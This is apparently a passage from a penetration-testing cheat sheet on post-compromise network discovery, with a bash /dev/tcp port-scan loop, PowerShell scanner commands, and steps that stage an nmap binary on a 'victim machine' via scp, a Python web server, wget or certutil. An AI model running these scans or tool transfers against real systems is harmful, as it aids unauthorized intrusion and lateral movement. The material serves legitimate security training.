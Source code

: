 ```bash
.\IPv4NetworkScanner.ps1 -StartIPv4Address 10.10.10.0 -EndIPv4Address 10.10.10.254
```

#### Open Ports Discovery

#### Linux

```bash
#!/bin/bash
for port in $(seq 1 65535); do
        timeout 1 bash -c "echo '' > /dev/tcp/<IP>/$port" &>/dev/null && echo "[*] $port Port is Open" &
done; wait
```

#### Windows

{% embed url="https://github.com/BornToBeRoot/PowerShell_IPv4PortScanner" %}
Check open port of network range
{% endembed %}

```bash
.\IPv4PortScanner .ps1 -ComputerName <name> -StartPort 1 -EndPort 500 | ft
```

### Host and Port Discovery using [Nmap binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap)

Simulating that we've access to first victim machine using SSH protocol, we need to download a portable scanning program (as nmap) on our attacker machine (kali) and transfer it on victim machine via SSH.

Go to this [github repo](https://github.com/andrew-d/static-binaries/tree/master/binaries/linux/x86_64), that contains more useful static binary resources (nmap, python, socat, netcat, etc) and copy following URL:

[**https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86\_64/nmap**](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/nmap)

download it on our attacker machine (Kali), assign exe privilege:

```bash
wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/nmap #download nmap binary
chmod +x nmap #give execution permission
```

and copy binary to victim machina via SSH:

```bash
scp nmap pivot@IP:/tmp #copy via ssh on /tmp victim machine directory 
```

or using hosting it on a python web server and downloading it on victim machine:

```bash
python3 -m http.server 80 #on attacker machine, on the same directory of nmap
wget http://10.10.10.4/nmap #if victim machine has Linux OS
certutil -urlcache -split -f http://10.10.10.4/nmap #if victim machine has Windows OS
```
